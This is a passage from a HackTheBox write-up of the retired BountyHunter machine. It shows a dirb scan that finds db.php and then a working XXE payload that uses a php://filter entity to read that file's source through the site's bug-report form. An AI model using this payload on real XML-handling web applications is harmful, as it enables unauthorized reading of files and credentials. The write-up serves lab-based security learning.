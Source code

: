 The bug reporting system might be vulnerable to XXE, but that alone does not allow me to gain access. In the machine I am certainly the user www-data: a user designed to isolate site permissions from user permissions/directories. I need to find some sort of php file or database within the site directory to read and hope there is some key or credential I can use for further access. 

<h2>dirb</h2>

From here the best case is to find other php files and directories and snoop around with my new found local file read bug bounty reporting system. 

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/BountyHunter]
└──╼ $dirb http://10.10.11.100/ /opt/wordlists/seclists/Discovery/Web-Content/common.txt -X .php

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Feb  7 22:02:38 2023
URL_BASE: http://10.10.11.100/
WORDLIST_FILES: /opt/wordlists/seclists/Discovery/Web-Content/common.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 4710                                                          

---- Scanning URL: http://10.10.11.100/ ----
+ http://10.10.11.100/db.php (CODE:200|SIZE:0)                                             
+ http://10.10.11.100/index.php (CODE:200|SIZE:25169)                                      
+ http://10.10.11.100/portal.php (CODE:200|SIZE:125)                                       
                                                                                           
-----------------
END_TIME: Tue Feb  7 22:07:00 2023
DOWNLOADED: 4710 - FOUND: 3
```

<h2>XXE PHP Filters</h2>

Well <code>db.php</code> seems like our winner for what we want to read. I will need to modify my payload to use php filters to read the php file and not require I know the directories above it. 

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY raccoon SYSTEM "php://filter/convert.base64-encode/resource=db.php" >]>
		<bugreport>
		<title>&raccoon;</title>
		<cwe></cwe>
		<cvss></cvss>
		<reward></reward>
		</bugreport>
```
